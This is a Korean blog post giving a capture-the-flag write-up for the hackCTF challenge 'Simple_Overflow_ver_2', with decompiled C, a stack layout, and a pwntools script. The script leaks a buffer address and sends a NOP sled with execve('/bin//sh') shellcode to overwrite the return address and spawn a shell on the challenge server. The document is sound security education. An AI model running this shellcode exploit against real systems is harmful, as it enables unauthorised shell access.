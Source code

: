 ```yaml
---
layout: post
title:  "[hackCTF]Simple_Overflow_ver_2"
date:   2020-02-18
categories: [hackCTF]
tags: [hackCTF]
permalink: '/hackCTF'
---
```


hackCTF pwnable 7번째 문제

![favicon](https://github.com/kkarung/kkarung.github.io/blob/master/assets/image/favicons.png?raw=true)

## ida - main
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  size_t v3; // ebx
  char v5; // [esp+13h] [ebp-89h]
  char s[128]; // [esp+14h] [ebp-88h]
  int i; // [esp+94h] [ebp-8h]

  setvbuf(stdout, 0, 2, 0);
  v5 = 121;
  do
  {
    printf("Data : ");
    if ( __isoc99_scanf(" %[^\n]s", s) ) // \n을 받을 때까지 공백을 입력 받아 s에 저장
    {
      for ( i = 0; ; ++i )
      {
        v3 = i;
        if ( v3 >= strlen(s) )
          break; // s의 길이만큼 for문 반복
        if ( !(i & 0xF) ) // 0x0, 0x10이면
          printf("%p: ", &s[i]); // s[i]의 주소 출력
        printf(" %c", (unsigned __int8)s[i]); // s[i]의 값 출력
        if ( i % 16 == 15 ) // 16의 배수번째 글자면
          putchar(10); // new line
      }
    }
    printf("\nAgain (y/n): ");
  }
  while ( __isoc99_scanf(" %c", &v5) && (v5 == 121 || v5 == 89) );
  // 문자열을 입력 받는데 그 값이 "Y" 또는 "y"이면 do-while문을 다시 반복한다
  return 0;
}
```
복잡해보이지만 실은 간단하다.  
문자열을 입력받고 그 문자열 16글자 단위로 나눠서 출력한다.  
이 때 1st, 17th 문자, 33th... 문자는 주소를 출력한다.
<br>

정리해보자.<br><br>

***

| ret |           |
|:---:|:---------:|
| sfp |    ebp    |
| ... |           |
|  i  |  ebp-0x8  |
|  s  |           |
| ... | (128byte) |
|  s  |  ebp-0x88 |
|  v5 |  ebp-0x89 |

***
<br>

![0701](https://github.com/kkarung/kkarung.github.io/blob/master/assets/image/hackCTF/0701.JPG?raw=true)  
실제로 실행해보면 좀 더 명확히 알 수 있다.<br><br>
지난 6번 문제와 동일한 조건이므로 s의 주소를 알아낸 뒤 쉘코드를 포함한 payload를 완성하면 될 것 같다. 주의해야 할 점은 서버와 나 사이에 데이터 핑퐁이 잘 되어야 한다는 점이다. 이를 위해서 recvuntil함수를 자주 사용하기로 했다.<br><br>
목표 : s의 주소를 서버로 부터 받아 ret을 덮는 payload 완성하기<br>
취약점 : scanf(" %[^\n]s", s)<br><br><br>

## exploit.py
```python
#!/usr/bin/python
from pwn import *

p = remote('ctf.j0n9hyun.xyz', 3006)

# 1st

p.recvuntil("Data : ")

p.sendline("asdf")

buf = int(p.recv(10), 16)

p.recvuntil("Again (y/n): ")

p.sendline("y")

# 2nd

p.recvuntil("Data : ")

payload = "\x90"*0x7

payload += "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"

payload += "\x90"*(0x88-0x20+0x4)

payload += p32(buf)

p.sendline(payload)

p.recvuntil("Again (y/n): ")

p.sendline("n")

p.interactive()

```
## 결과
![0702](https://github.com/kkarung/kkarung.github.io/blob/master/assets/image/hackCTF/0702.JPG?raw=true)
